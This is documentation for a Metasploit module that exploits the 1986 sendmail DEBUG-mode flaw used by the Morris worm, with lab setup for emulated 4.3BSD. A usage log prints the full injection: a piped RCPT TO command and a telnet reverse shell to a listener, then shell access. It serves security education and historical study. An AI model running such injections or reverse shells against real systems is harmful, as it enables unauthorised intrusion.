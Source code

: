 ## Intro

This module exploits `sendmail`'s well-known historical debug mode to
escape to a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   @(#)version.c       5.51 (Berkeley) 5/2/86
```

## Options

**RPORT**

Set this to the target port. The default is 25 for `sendmail`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a Unix command payload. Currently only `cmd/unix/reverse`
and `cmd/unix/generic` are supported.

## Usage

```
msf5 exploit(unix/smtp/morris_sendmail_debug) > options

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  127.0.0.1        yes       The target address range or CIDR identifier
   RPORT   25               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)version.c       5.51 (Berkeley) 5/2/86


msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.1.5:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Sending: MAIL FROM:<GmWE2vWEViR4CLhBWOOOUVSMjJEr2NymDveA>
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 4197|telnet 192.168.1.5 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.5 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Sending: QUIT
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zqhqKJD7trW0E0Lp;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "zqhqKJD7trW0E0Lp\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.5:64337) at 2018-10-20 14:08:03 -0500
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
